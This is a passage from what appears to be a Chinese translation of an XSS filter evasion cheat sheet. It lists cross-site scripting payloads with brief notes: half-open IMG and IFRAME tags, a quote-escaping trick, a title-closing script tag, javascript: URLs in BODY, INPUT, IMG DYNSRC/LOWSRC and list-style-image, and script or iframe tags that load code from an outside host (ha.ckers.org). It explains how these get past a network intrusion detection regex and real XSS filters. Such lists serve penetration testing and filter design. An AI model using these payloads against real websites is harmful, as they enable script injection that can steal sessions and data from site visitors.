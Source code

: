     <SCRIPT SRC=//ha.ckers.org/.j>

----
##半开的HTML/JavaScript xss向量##
不同于 Firefox ，ie渲染引擎不会加入额外的数据到你的页面。但是它允许javascript指令在IMG标签中，这是有用的作为一个xss向量，因为它不需要一个结束的尖括号。你可以使用这个xss向量在任何html标签中，甚至没有用">"闭合标签。 A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: /((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/ because it doesn't require the end ">". 它也是有效的去对付真实的xss过滤器，我曾经用半开的<IFRAME 标签替代 <IMG 标签去绕过过滤器。

    <IMG SRC="javascript:alert('XSS')"

------
##双开尖括号##
使用一个开始尖括号(<)在向量结尾代替一个关闭尖括号（>）会有不同的影响在 Netscape Gecko 的渲染中。 Without it, Firefox will work but Netscape won't。

    <iframe src=http://ha.ckers.org/scriptlet.html <

-----
##转义javascript中的转义##
当一个应用程序是输出用户自定义的信息到javascript代码中时，例如： &#x3C;SCRIPT>var a="$ENV{QUERY_STRING}";&#x3C;/SCRIPT>。如果你想插入你自己的javascript代码进入它，但是服务器转义了其中的某些引号，这时你需要通过再转义被转义的字符来绕过它。因此使最终的输入代码类似于&#x3C;SCRIPT>var a="\\";alert('XSS');//";&#x3C;/SCRIPT> 。最终\转义了双引号前被服务器添加的\，从而使双引号不会被转义，因此触发xss向量。xss定位器使用这个方法。

    \";alert('XSS');//

-----
##闭合title标签##
这是一个简单的xss向量，可以引入一个恶意的xss攻击。
*译者注：titile标签内部不支持html代码，所有内容会被自动转义为普通字符。*

    </TITLE><SCRIPT>alert("XSS");</SCRIPT>

-----
##INPUT image##

    <INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

-----
##BODY image##

    <BODY BACKGROUND="javascript:alert('XSS')">

----
##IMG DYNSRC(视频剪辑) ##

    <IMG DYNSRC="javascript:alert('XSS')">

----
##IMG lowsrc（低分辨率图片）##

    <IMG LOWSRC="javascript:alert('XSS')">

-----
##List-style-image##

    <STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>


  [1]: http://ha.ckers.org/xsscalc.html
  [2]: http://ha.ckers.org/xsscalc.html
  [3]: http://ha.ckers.org/xsscalc.html
  [4]: http://help.dottoro.com/
  [5]: http://help.dottoro.com/ljfvvdnm.php
  [6]: https://tools.ietf.org/html/rfc2397
  [7]: http://ha.ckers.org/xsscalc.html